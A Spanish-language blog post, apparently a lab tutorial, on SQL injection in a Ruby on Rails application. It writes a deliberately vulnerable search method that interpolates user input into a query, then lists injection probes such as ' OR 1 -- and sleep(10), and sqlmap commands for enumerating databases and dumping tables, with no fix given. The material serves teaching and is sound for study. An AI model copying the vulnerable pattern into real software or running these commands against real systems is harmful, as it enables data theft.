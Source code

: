 ```yaml
---
layout: post
title:  "Rails 5 SQL Inyection On Rails"
date:   2016-04-26 00:37:19 -0300
categories: rails security
---
```

El siguiente laboratorio tiene como objetivo comprender uno de los ataque más populares en aplicaciones web, Inyección SQL, como muchos sabrán una inyección sql tiene como objetivo hacer consultas a la base de datos mediante la manipulación de los parámetros evitando la autorización del administrador,pudiendo obtener la manipulación y extracción de datos confidenciales que pueden comprometer el modelo de negocio de la compañía.

A continuación vamos a crear una aplicación en Ruby on Rails:

```
rails new My-Application
```
Para este ejemplo crearemos un modelo para el usuario con un atributo name:string

```
rails g model user name:string
```

Además agregaremos un método,cuya función será buscar usuarios por el atributo name.
{% highlight ruby %}
def search(params)
 User.where("name = '#{params}'")
end
{% endhighlight %}

Ahora que ya creamos nuestro primer método vulnerable, vamos a descubrir vulnerabilidad, para ello podemos realizar las siguientes pruebas:

```
localhost:3000/search/1 and 1 = 1 --
localhost:3000/search/1 and sleep(10)
sqlmap -u = “localhost:3000/tests/*” --dbms=”SQLite” --risk=”3” --level= “5”
```

Si un usuario malicioso entra ' OR 1 -- , la consulta SQL resultante será :
```
SELECT * FROM users WHERE name = '' OR 1 --'
```

Explotamos vulnerabilidad

```
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs -D database --table
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables 
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
```

Ayuda SQLMAP.

```
/sqlmap.py -u URL --dbs/ 
/sqlmap.py -u URL -D --table    
/sqlmap.py -u URL -D -T -columns
/sqlmap.py -u URL -D -T -C --dump


-D:Base de datos
-T:Tablas
-C:Columnas
-U:Usurio

--table 
--columns
--dump
```